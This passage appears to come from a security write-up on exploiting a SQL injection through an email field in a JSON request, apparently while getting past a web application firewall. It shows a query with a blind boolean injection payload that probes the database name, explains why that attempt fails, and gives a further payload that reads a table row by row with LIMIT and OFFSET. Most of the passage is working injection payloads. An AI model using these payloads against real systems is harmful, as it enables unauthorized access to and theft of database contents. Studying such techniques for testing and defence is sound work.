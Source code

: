 {% highlight sql linenos %}
SELECT t1.*
FROM table1 AS t1 LEFT JOIN table2 AS t2
	ON t2.id = t1.id
	AND t2.q_id IN (1, 2, 3, 4)
	AND t2.input = LOWER('a@b.c')OR('a'=(SELECT(right((SELECT database_name()),1))))AND('a'='a');--')
WHERE 
	t1.deleted_at IS NULL
	AND t1.name = $1
	AND (
		LOWER(t1.email) = LOWER('a@b.c')OR('a'=(SELECT(right((SELECT database_name()),1))))AND('a'='a');--')
		OR LOWER(t2.input) = LOWER('a@b.c')OR('a'=(SELECT(right((SELECT database_name()),1))))AND('a'='a');--')
	);
{% endhighlight %}

<p>
Anyway, this of course doesn't work for two reasons:
<ol>
<li>Everything after line #5 is ignored because of the comment. This is not necessarily limiting, but I'd rather perform my SQLi inside the <b>FROM</b> clause.</li>
<li>I get the following error: "bind message supplies 1 parameters, but prepared statement requires 0". This is because the <b>name</b> variable is passed
to the prepared statement but line #8 is ignored so the new prepared statement does not expect the variable.</li>
</ol>
</p>

#### Fourth attempt
<p>
I'm giving here another early attempt of mine to retrieve data from a table, that got me closer to my goal. What I knew until this point was that the following payload
would get blocked by the WAF:
</p>

{% highlight json %}
...
 "email":"a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT column1 FROM table1 LIMIT 1 OFFSET 0),1))))AND('a'='a"}
}
{% endhighlight %}

<p>
<span class="note">NOTE:</span> I added the <b>LIMIT</b> and <b>OFFSET</b> keywords in order to retrieve only one row from table1.
<b>LIMIT</b> indicates that we only want one row retrieved and <b>OFFSET</b> indicates how many rows we want to skip before starting retrieving data.
In this case <b>OFFSET 0</b> indicates that the database should skip 0 rows and return the first row in table1. This is useful in order to retrieve
all the table's rows one-by-one.
</p>
